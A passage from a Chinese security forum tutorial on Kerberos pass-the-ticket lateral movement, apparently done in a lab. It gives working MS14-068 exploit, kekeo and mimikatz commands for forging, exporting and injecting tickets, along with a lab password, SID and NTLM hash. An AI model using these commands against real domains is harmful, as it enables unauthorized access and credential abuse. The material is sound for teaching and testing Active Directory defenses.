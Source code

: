 # [](https://bbs.pediy.com/thread-268289.htm)四、 PTT票据传递在横向移动利用

PTT(pass the
ticket)不再使用NTLM进行认证，而是利用kerberos协议进行攻击,相对于PTH来说其不需要管理员权限，有三种常见的攻击方式：MS14-068(漏洞编号kb3011780)、Golder
ticket、Silver ticket，其中后两者是将连接合法的票据注入内存中属于权限维持（后面写）。

## [](https://bbs.pediy.com/thread-268289.htm)4.1 利用相关漏洞

第一种使用MS14-068 exp：  
先用whoami /user查看当前用户sid  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_F7AKAPEREP67SBG.png)  
Kerberos::purge或klist purge先清空当前机器中的所有凭证：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_WD34AVBE6WJR6SB.png)  
利用MS14-068生成相应凭证：  
MS14-068.exe -u c@test.com -s S-1-5-21-2273191065-1635484360-3888421177-1105
-d 192.168.202.148 -p c@zxcvbnm123  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_53RYB4W3KMTTPVB.png)  
使用mimikatz将票据注入内存：  
Kerberos::ptc “TGT_c@test.com.ccache”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_WPHCCTHUNWCW3Y5.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_JZWD87Q9QYNM24T.png)  
后续利用：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_KYP2E9FQWA4X93G.png)  
第二种kekeo利用hash生成票据：  
Kekeo “tgt::ask /user:c /domain:test.com
/ntlm:abe09320f41c250eadcc5bfba77a5e1a”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_YKGR495R7FDFSE3.png)  
同样清楚票据并导入生成的票据：  
kerberos::ptt TGT_c@TEST.COM_krbtgt~test.com@TEST.COM.kirbi  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_J8E66Y4F6MP3PFS.png)  
第三种利用mimikatz收集本地的票据并重新导入（导出需要管理员权限）：  
Sekurlsa::tickets /export  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_XNQ9TWUADVCJZDP.png)  
使用Kerberos::ptt 进行导入票据。
